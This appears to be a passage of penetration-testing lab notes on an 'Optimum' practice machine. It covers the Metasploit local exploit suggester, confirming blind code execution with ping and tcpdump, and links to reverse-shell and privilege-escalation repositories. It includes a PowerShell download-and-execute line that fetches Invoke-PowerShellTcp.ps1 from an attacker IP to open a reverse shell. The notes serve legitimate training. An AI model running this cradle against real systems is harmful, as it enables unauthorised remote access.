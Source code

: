 * In `msfconsole`, there is a module to suggest an exploit by testing the current open session.

```bash
use post/multi/recon/local_exploit_suggester
```

### Optimum

* If execution of an exploit doesn't provide feedback results like in Burpsuite, it's a called a blind execution. It's difficult to tell if the exploit worked or not. In these type of scenarios, try simple code execution testing such as pinging back to yourself. To know if the remote server is pinging back, you will need to use tcpdump on the listening interface to see the response back. Once you verify the response is valid, you can proceed with trying to reverse shell the machine.

This Burp request won't show results so it's hard to know if remote code execution is successful or not: 

![ippsec-optimum-ping2](ippsec-optimum-ping2.png)

But using `tcpdump` on an interface will monitor the ping response to verify the remote code execution is successful. 

![ippsec-optimum-ping1](ippsec-optimum-ping1.png)

* [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great repo for Powershell reverse shell scripts.

* Command execution to load Powershell reverse shell:

```powershell
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')
```

Encoded in Burpsuite:

![ippsec-optimum-powershell](ippsec-optimum-powershell.png)

* [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock) - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.